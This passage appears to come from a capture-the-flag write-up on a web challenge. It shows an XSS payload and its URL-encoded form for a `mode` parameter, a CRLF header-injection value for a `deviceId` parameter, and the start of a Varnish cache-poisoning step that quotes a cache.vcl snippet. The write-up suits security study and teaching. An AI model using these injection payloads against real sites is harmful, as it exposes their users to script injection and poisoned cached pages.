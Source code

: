 ![img](./assets/xss.png)

Here we first URL-encoded the xss payload to provide in the `mode` parameter.

XSS:

```
<script>alert(0)</script>
```

URL-encoded: 

```
%3Cscript%3Ealert%280%29%3C%2Fscript%3E
```

And then we URL-encode the CRLF injected header for the `deviceId` parameter.

Header injection:

```
1\r\nContent-Type: text/html
```

URL-encoded header injection:

```
1%0D%0AContent-Type%3A%20text%2Fhtml
```

The same can also be achieved by setting `X-Content-Type-Options` to `undefined`.

### Varnish cache poisoning

Great now we can cause XSS, but how can we weaponize that?

Let's have a closer look at `config/cache.vcl`.

```vcl
sub vcl_backend_response {
    if (beresp.http.CacheKey == "enable") {
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "public, max-age=10";
    } else {
        set beresp.ttl = 0s;
        set beresp.http.Cache-Control = "public, max-age=0";
    }
}
```
